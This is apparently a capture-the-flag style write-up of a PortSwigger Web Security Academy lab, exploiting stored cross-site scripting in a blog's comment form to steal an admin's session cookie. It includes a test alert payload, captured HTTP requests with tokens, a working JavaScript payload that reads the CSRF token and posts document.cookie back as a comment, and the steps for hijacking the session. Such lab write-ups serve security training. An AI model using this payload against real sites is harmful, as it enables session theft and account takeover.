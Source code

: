 # Exploiting cross-site scripting to steal cookies

# solved :
![alt text](assets/SolvedECSS.png)

# Solution :

- On opening the website we see a blogpage with a few posts which u can open and leave a comment on it.

- it also has a login auth page.

- We can check if XSS works by sending a comment using this payload cheatsheet : 

- `<script>alert('XSS')</script>`

- It worked! 

![alt text](assets/ECCSS1.png)

this means the comment part is vulnerable lets open this in burp and see the request sent to the server now.


```
POST /post/comment HTTP/2
Host: 0a7300780337b92082a235a000520074.web-security-academy.net
Cookie: session=SZi1XziHBLFvZTRYOvQIkh9brxCof2QI
Content-Length: 246
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="141", "Not?A_Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0a7300780337b92082a235a000520074.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7300780337b92082a235a000520074.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=I3xTiscWooQHTRb2RdUEnUpM107NiFXm&postId=9&comment=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&name=Dantalian&email=hegdsatwik%40gmail.com&website=https%3A%2F%2F0a7300780337b92082a235a000520074.web-security-academy.net%2Fpost%3FpostId%3D9
```

- if we look at the request being sent we can see OUR Cookie and our CSRF token both.

- we can thus use js in console to get our cookie but we need admin cookie so we need to get that using XSS payloads.

- if we look at the page source we find this : 

```
<form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
                            <input required type="hidden" name="csrf" value="VNtYpjFrNln1t5iXawRn0tvCP83MNKsW">
                            <input required type="hidden" name="postId" value="6">
                            <label>Comment:</label>
```





- we can get the csrf token with the command : `document.getElementsByName("csrf")[0].value`

- out : `VNtYpjFrNln1t5iXawRn0tvCP83MNKsW`

- which is the same as the one we found in source. 
- **to Solve this challenge we will** : 

-  need to craft a payload to get the admin creds.

```js
<script>
window.addEventListener('DOMContentLoaded', function() {

var token = document.getElementsByName('csrf')[0].value
var payload = new FormData();

payload.append('csrf', token);
payload.append('postId', 5);
payload.append('comment', document.cookie);
payload.append('name', 'kpoli');
payload.append('email', 'satwik@email.com');
payload.append('website', 'http://satwik.com');


fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: payload
});

});
</script>


```


- PostID is dynamic and it depends on which post we are attacking currently so i used postId= 5.

- thus we get our values :
![alt text](assets/ECSS2.png)

```
secret=MYLAFgGpldJfgyHahh2EuhbRmAPxBpoe; session=RlBQpeBzkhsS0Lek7AlFpxRqK3n69pZo
```


- now we use the burp repeater or proxy to hijack the admin session to solve this chall.

- we modify the get-account to have our admin session to solve this challenge : 

![alt text](assets/finalECSS.png)


Solved :

![alt text](assets/SolvedECSS.png)


## Reference


- https://owasp.org/www-community/attacks/xss/
- https://portswigger.net/web-security/csrf